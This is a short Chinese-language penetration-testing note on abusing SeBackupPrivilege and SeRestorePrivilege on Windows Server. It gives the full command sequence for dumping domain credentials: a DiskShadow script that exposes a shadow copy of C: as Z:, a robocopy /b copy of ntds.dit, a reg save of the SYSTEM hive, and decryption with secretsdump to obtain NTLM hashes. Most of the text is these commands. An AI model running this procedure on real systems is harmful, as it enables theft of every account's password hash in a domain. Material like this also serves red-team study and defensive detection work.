

# 卷影拷贝提权

相关权限：SeBackupPrivilege和SeRestorePrivilege


DiskShadow.exe 是公开卷影复制服务 (VSS) 提供的功能的工具。

适用范围：Windows Server 2022、Windows Server 2019、Windows Server 2016、Windows Server 2012 R2、Windows Server 2012

当用户具有备份以及还原文件和目录的权限时，可以用卷影拷贝导出SAM和system

首先在本地创建一个dsh文件，这里命名为`raj.dsh`，内容如下

```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

接下来再用unix2dos将dsh文件的编码间距转换为Windows兼容的编码和间距

```
unix2dos raj.dsh
```

在`C:/`下随便创个目录，上传此文件

如果是直接在域机器上创建的文件，可以跳过这一步

卷影拷贝

```
diskshadow /s raj.dsh
```



看到创建了Z盘

因为是域环境，所以需要导出的不是SAM，而是ntds.dit文件

复制到当前目录

```
RoboCopy /b z:\windows\ntds . ntds.dit
```

导出system，因为system.hive中存放着ntds.dit的密钥

```
reg save HKLM\SYSTEM system
```


下载下来后用secretdump脚本进行解密获取ntlm hash

